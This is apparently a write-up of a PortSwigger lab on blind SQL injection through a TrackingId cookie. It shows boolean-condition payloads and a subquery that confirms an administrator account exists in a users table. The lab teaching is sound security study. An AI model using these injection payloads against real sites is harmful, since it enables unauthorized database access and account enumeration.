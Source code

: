 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a2277a84-8741-4b90-b15e-d88ad9c9eda9)


## Solution :

Query made - 

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>'
```
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/6f499d35-6e1f-418e-8a34-f8b18889ea14)

*This how the session looks like where ```TrackingId and COOKIE-VALUE``` are shown and  Welcome back message is also displyed.*


TrackingID parameter is vulnerable. So it is vulnerablecan to blind SQL injection on trackingID parameter.

```If the Condition is true it will display the Welcome back message```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=1-- '
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/fe425f15-d397-46a0-a068-7bcbdc6b4de8)

```If the Condition is not true it will not  display the Welcome back message```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=2-- '
```
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/8490db5d-55ae-4aaa-8924-0aee2f53704e)

#### Check Whether the username administrator is present in users table -

```Here table name is users```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'Ananthan' FROM users WHERE username='administrator')='Ananthan
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/88dbcb08-b121-47a8-8b20-cad203b083d4)

It display the Welcome back message. So username administrator  is present in the user table.
